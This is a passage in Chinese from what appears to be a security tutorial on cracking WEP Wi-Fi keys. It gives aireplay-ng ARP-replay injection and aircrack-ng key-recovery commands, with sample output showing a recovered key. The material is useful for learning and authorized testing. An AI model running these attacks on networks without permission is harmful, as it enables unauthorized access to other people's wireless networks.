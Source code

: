 请注意，在本例中，出现了一条`Got a deauthentication packet`消息，随后进行了一系列重试。如果发生这种情况，则意味着您无法成功继续，您必须重试以查看是否可以成功关联。

# 第五阶段–ARP 重播模式

回到前面的方法，我们将使用`aireplay-ng`侦听 ARP 请求，然后使用捕获的信息将数据包重新注入网络。在这种情况下，我们使用 ARP 请求数据包，主要是因为 AP 将重新广播这些数据包，从而生成新的 IV。由于这是我们的主要目标，为了在短时间内获得大量的 IV，我们正在进行此操作。

要执行注入，我们需要打开另一个控制台并输入：

```
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0
```

这将开始监听 ARP 请求，当它听到一个请求时，`aireplay-ng`将立即开始注入它。

如果该过程成功完成，预期会看到类似以下内容的输出：

```
 Saving ARP requests in replay_arp-2017.cap 
 You should also start airodump-ng to capture replies. 
 Read 629399 packets (got 316283 ARP requests), sent 210955 packets... 
```

您可以通过检查`airodump-ng`屏幕确认您正在注射。数据包应该迅速增加。`#/s`应该是一个合适的数字。然而，体面取决于多种因素。典型的范围是每秒`300`到`400`数据包。它可以低至 100/秒，也可以高达 500/秒。

# 第六阶段-获取 WEP 密钥

现在我们已经捕获到一个`.cap`文件的流量，现在我们将尝试从捕获的数据包中检索密钥。为此，我们采取以下措施：

打开另一个新的控制台会话并输入：

```
aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
```

`-b 00:14:6C:7E:40:80`选择我们感兴趣的一个接入点。

`.cap`选择以输出开始，以`.cap`结束的所有文件。

1.  您可以在生成数据包时运行此操作。在短时间内，将计算并显示 WEP 密钥。64 位密钥需要大约 250000 个 IVs，128 位密钥需要 1500000 个 IVs。请注意，这些值是粗略的指导原则，其他变量可能会影响实际需要收集的流量和 IVs 数量。
2.  如果该过程成功完成，您将看到如下内容：

```
 Aircrack-ng 0.9 

                              [00:03:06] Tested 674449 keys (got 96610 IVs) 

 KB    depth   byte(vote) 
  0    0/  9   12(  15) F9(  15) 47(  12) F7(  12) FE(  12) 1B(   5) 77(   5) A5(   3) F6(   3) 03(   0)  
  1    0/  8   34(  61) E8(  27) E0(  24) 06(  18) 3B(  16) 4E(  15) E1(  15) 2D(  13) 89(  12) E4(  12)  
  2    0/  2   56(  87) A6(  63) 15(  17) 02(  15) 6B(  15) E0(  15) AB(  13) 0E(  10) 17(  10) 27(  10)  
  3    1/  5   78(  43) 1A(  20) 9B(  20) 4B(  17) 4A(  16) 2B(  15) 4D(  15) 58(  15) 6A(  15) 7C(  15)  

                       KEY FOUND! [ 12:34:56:78:90 ]  
      Probability: 100% 
```

请注意，按键的显示方式与预期不同。方括号中键旁边的字符是十六进制的密钥。如果在提示您与网络关联时删除冒号，然后将其余字符粘贴到无线客户端，则该功能仍然有效。